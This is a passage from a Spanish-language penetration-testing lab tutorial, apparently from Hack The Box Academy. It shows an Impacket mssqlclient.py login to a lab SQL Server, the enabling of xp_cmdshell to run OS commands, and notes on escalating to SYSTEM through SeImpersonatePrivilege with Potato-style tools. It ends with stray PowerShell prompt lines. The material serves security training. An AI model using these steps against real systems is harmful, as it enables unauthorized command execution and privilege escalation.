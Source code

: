 ### Running mssqlclient.py Against the Target

```r
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

Una vez conectados, podríamos escribir `help` para ver qué comandos están disponibles para nosotros.

### Viewing our Options with Access to the SQL Server

```r
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

Luego podríamos elegir `enable_xp_cmdshell` para habilitar el procedimiento almacenado [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) que permite ejecutar comandos del sistema operativo a través de la base de datos si la cuenta en cuestión tiene los derechos de acceso adecuados.

### Choosing enable_xp_cmdshell

```r
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Finalmente, podemos ejecutar comandos en el formato `xp_cmdshell <command>`. Aquí podemos enumerar los derechos que nuestro usuario tiene en el sistema y ver que tenemos [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), que puede ser aprovechado en combinación con una herramienta como [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), o [RoguePotato](https://github.com/antonioCoco/RoguePotato) para escalar a privilegios `SYSTEM`, dependiendo del host objetivo, y usar este acceso para continuar hacia nuestro objetivo. Estos métodos se cubren en la sección `SeImpersonate and SeAssignPrimaryToken` del módulo [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation). ¡Pruébalos en este objetivo si deseas practicar más!


[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession